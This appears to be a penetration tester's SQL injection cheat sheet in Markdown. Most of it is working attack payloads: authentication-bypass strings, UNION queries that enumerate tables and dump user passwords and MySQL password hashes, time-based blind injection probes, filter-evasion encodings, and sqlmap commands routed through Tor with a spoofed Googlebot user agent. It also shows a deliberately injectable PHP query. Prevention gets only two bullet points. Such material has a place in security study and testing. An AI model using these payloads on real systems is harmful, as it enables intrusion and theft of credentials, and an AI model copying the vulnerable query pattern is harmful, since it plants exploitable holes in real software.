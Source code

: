 # SQL INJECTION

SQL Operators and Functions
---------------------------

`UNION` - used to combine the result of two or more SELECT statements with same number of columns and similar data types (selects only distinct values by default - to allow duplicate values, use UNION ALL).  
`SUBSTRING(str, pos, len)` - returns a specified number of characters from a particular position of a given string. str=string; pos=starting position; len=length in characters.
`VERSION()` - returns a string that indicates the MySQL server version.

SQL comments: `/* actual comment text*/`  

MySQL delimiter (comment): `#`
SQL delimiter (comment): `--`

Only MySQL is using `version_comment`.

Vulnerable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

General Tips
------------

Find out if the web app is talking to a data store (i.e. file, web service, database).  
Look for parameter passing and insert single/double quote there - immediately after the parameter value or instead the parameter value.  
Browse the web app, note errors, behaviour.

PHP usually "talks" to MySQL.  
Understand, what tier we're messing with? Web server, app server, database?

Try `parameter?id=(5-2)`instead of 3 - get the same? Might mean that the injection is possible.

* "Always true" scenario:

```
%' OR '0'='0
%' OR 1=1--
"' OR '1'='1';-- " (note the space after the second hyphen)
```

`%` will probably not be equal to anything so will be false
`'0'='0'` - always equal to true

* Figure out how many columns / attributes are there:

`‘ ORDER BY 1#`  
`‘ ORDER BY 2#`  
etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables #`

* Display all the user tables in a database:

`%' and 1=0 union select null, table_name from [database name].tables where table_name like 'user%'#`

* Display all the columns fields in database's user table:

%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`

* Display all the columns field contents in the database user table:

`%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`


Blind SQLi
----------

* [BBQSQL](https://github.com/Neohapsis/bbqsql) - blind SQLi exploitation tool  

When you put in a tick, you are redirected to a homepage? Suspicious.

```
id=2; waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=1) waitfor delay '00:00:10'--
id=2; IF (LEN(USER)=2) waitfor delay '00:00:10'--
```

etc...

Then, look at ASCII chart and try guessing admin username:

```
id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'--
id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
```

etc.

Note: sqlmap tool is good for blind sqli.  
These days there's more union-based SQLi.


Circumventing Simple Validation
-------------------------------

If SELECT keyword is being blocked, try:

```
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```

Bypassing Simple Input Filtering / Smuggling
--------------------------------------------

Example code:

```
function unsqli($str){
        $str = str_replace("'", "\\'", $str);
        return "'".$str."'";
}
```

Bypass this filtering with `\'`.  

* http://web.archive.org/web/20130401091931/http://www.comsecglobal.com/FrameWork/Upload/SQL_Smuggling.pdf

SQLMAP
------

`sqlmap -u "URL" --cookie="COOKIE"`

--dbs: list databases  
-D [database]: specify a databases  
--tables: list tables  
-T users: list columns of users table  
-C user, password --dump  

* POST requests:  
`sqlmap -r post_request.txt -p <parameter>`  
* TOR: `--tor --tor-type=SOCKS5`  
* Fake user agent: `--user-agent="Googlebot (compatible; Googlebot/2.1; +http://www.google.com/bot.html)`

Other Tools
-----------

* Havij
* sqlninja
* Metasploit SQLi Module


Prevention Techniques
---------------------

* Input sanitization
* Prepared statements


Resources
---------

* http://seclists.org/pauldotcom/2010/q3/341  
* https://www.notsosecure.com/more-on-true-and-error-blind-sql-injection/  
* https://www.notsosecure.com/exploiting-sql-injections-in-insert-statements/
* http://www.blackhat.com/presentations/bh-usa-06/BH-US-06-Willis.pdf
* [Great introduction to SQLi](https://www.youtube.com/watch?v=P6fLRmeEKKA)
* [MySQL SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
